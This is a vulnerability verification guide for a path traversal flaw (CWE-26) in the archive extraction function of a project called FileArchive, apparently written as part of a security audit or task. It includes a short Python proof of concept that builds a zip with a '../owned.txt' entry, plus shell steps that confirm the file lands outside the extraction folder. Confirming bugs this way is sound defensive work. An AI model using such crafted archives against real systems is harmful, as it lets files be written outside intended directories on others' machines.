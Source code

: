 
# Verification Guide

## CWE-26: Path Traversal - filenames in archive extraction

**CWE ID:** CWE-26

**Location:** `extract_archive` function in `src/app.py` (lines ~22-36)

**Issue:** 
When extracting zip archives, the code takes file names inside the archive at face value and writes them directly to the filesystem without sanitizing against `../` sequences. This allows extraction of files outside the intended directory.

---

## Verification Steps

1. **Set up the project:**

    ```sh
    cd projects/FileArchive/src
    mkdir testfiles
    echo "malicious content" > testfiles/evil.txt
    ```

2. **Create a malicious zip with a path traversal filename:**

    ```python
    # Save the following script as makeevilzip.py:
    import zipfile
    with zipfile.ZipFile("evil.zip", "w") as zf:
        zf.writestr("../owned.txt", "You have been hacked!")
    ```

    Then run:
    ```
    python makeevilzip.py
    ```

3. **Move the zip to the archives folder:**

    ```sh
    mv evil.zip ../archives/
    ```

4. **Extract using the vulnerable utility:**
   
    ```sh
    python app.py extract evil.zip test
    ```

5. **Observe the result:**

    - The file `owned.txt` should have been written into the parent directory of `src/extracted/test/`, i.e., potentially outside the controlled extraction destination.
    - Check for the file:
      ```sh
      ls ../owned.txt
      cat ../owned.txt
      ```

**If you see "You have been hacked!" in `../owned.txt`, the vulnerability is confirmed.**
